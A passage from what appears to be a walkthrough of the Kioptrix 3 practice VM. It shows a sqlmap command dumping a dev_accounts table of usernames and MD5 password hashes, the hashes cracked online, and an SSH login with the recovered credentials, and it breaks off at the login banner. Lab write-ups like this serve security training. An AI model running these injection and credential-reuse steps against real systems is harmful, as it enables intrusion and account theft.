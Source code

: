 A table dev_accounts was found. Maybe it contains user names and passwords. I run sqlmap again to dump the contents of that table:

```
# ./sqlmap.py -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos" --dbms=MySQL -D gallery -T dev_accounts --dump
.
.
.
[22:58:34] [INFO] the SQL query used returns 2 entries
[22:58:34] [INFO] retrieved: "1","0d3eccfb887aabd50f243b3f155c0f85","dreg"
[22:58:34] [INFO] retrieved: "2","5badcaf789d3d1d09794d8f021f40f0e","loneferret"
[22:58:34] [INFO] analyzing table dump for possible password hashes            
recognized possible password hashes in column 'password'. Do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: gallery
Table: dev_accounts
[2 entries]
+----+----------------------------------+------------+
| id | password                         | username   |
+----+----------------------------------+------------+
| 1  | 0d3eccfb887aabd50f243b3f155c0f85 | dreg       |
| 2  | 5badcaf789d3d1d09794d8f021f40f0e | loneferret |
+----+----------------------------------+------------+
```

Two accounts have been discovered with hashed passwords. I chose not to crack the hashes using sqlmap and used [http://www.md5decrypter.co.uk/](http://www.md5decrypter.co.uk/) instead. md5decrypter.co.uk is an excellent resource and I've used it numerous times to quickly crack various hashes.

->![](/images/2012-07-16/04.png)<-

md5decrypter.co.uk successfully cracks both passwords. I decide to try to login to the server using SSH and the cracked credentials. The first attempt is done with loneferret's account:

```
# ssh loneferret@kioptrix3.com
The authenticity of host 'kioptrix3.com (192.168.1.149)' can't be established.
RSA key fingerprint is 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'kioptrix3.com,192.168.1.149' (RSA) to the list of known hosts.
loneferret@kioptrix3.com's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686
 
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
 
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
 
To access official Ubuntu documentation, please visit:
```